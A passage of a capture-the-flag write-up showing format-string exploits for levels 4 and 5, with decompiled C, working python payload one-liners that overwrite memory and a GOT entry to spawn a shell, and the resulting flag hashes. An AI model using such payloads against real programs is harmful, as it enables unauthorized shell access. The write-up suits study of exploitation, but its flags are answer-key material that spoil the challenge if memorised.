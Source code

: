 Here, the technique is the exact same, however there are a lot of characters to write to the terminal. It could be nice if a technique existed to allow us to write less to the terminal... Never mind, let's just write 16930116 characters in the terminal !

12 = offset %x %x %x....

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'| ./level4
```


`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

# level5

```c
void o(void)
{
  system("/bin/sh");
  _exit(1);
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  exit(1);
}

void main(void)
{
  n();
  return;
}
```

Here the idea is the same as writing to a variable, however with a twist: we'll instead write to a pointer !
Since a pointer is basically an int in disguise, we can change it's value with the printf exploit. Since we need to reach the function `o`, we can change the pointer of `exit` to make it point to `o`.

o = `0x080484a4` -> `134513828`
exit = `*0x8049838`

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"' | ./level5
                                        ^^^^^^^^^ o - 4
```
`d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`

# level6
